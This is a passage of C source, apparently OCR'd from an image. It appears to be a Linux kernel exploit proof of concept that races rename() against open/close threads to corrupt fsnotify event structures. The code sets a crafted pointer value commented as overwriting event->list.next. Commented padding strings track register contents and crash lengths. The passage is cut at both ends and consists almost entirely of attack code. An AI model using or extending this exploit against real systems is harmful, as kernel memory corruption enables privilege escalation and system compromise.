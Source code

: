 ```
     }
      
     iret2 = pthread_create( &thread2, NULL, openclose, NULL);
     if(iret2)
     {
         fprintf(stderr,"Error - pthread_create() return code: %d\n",iret2);
         exit(EXIT_FAILURE);
     }
     pthread_join( thread1, NULL);
     printf("thread1 callrename done\n");
     pthread_join( thread2, NULL);
     printf("thread2 openclose done\n");
     //exit(EXIT_SUCCESS);
}
 
 
// 250
//char *longname_padding =   "fhhhhhhkhkhkhfdfsdfsdfsdfsdf";
//char *longname_padding =   "bbbb32103210321032103210ABCDEF";
/*
rcx : 44434241..
      DCDA0123
*/
//  char *longname_padding =   "bbbb3210321032GFEDCBA";
// 31 will crash
void *callrename( void *ptr )
{
    int i,m,k;
    char enter = 0;
    char origname[1024];
    char longname[1024];
    char next_ptr[8] = "\x30\xff\xff\x31\xff\xff\xff\xff"; 
    char prev_ptr[8] = ""; 
    // This value will overwrite the next (struct fsnotify_event)event->list.next 
 
 
    // create shortname being initial name.
    snprintf(origname, sizeof origname, "test_dir/%s", orig_name);
    //printf("origname=\"%s\"\n", origname);
     
    snprintf(longname, sizeof longname, "test_dir/%s", 
             longname_padding);
    //strcat(longname,space);
    printf("longname=\"%s\"\n", longname);
 
    for (i=0;i<1000 && !stop ;i++)
    {
        if (rename(origname,longname)<0) perror("rename1");
    for (int j = 0; j < 1; j++)
    {
        fillhole();
    }
        if (rename(longname,origname)<0) perror("rename2");
         
    }
 
    printf("callrename done.\n");
    stop = 1;
}
 
void *openclose( void *ptr )
{
    int j,fd,m,k;
```
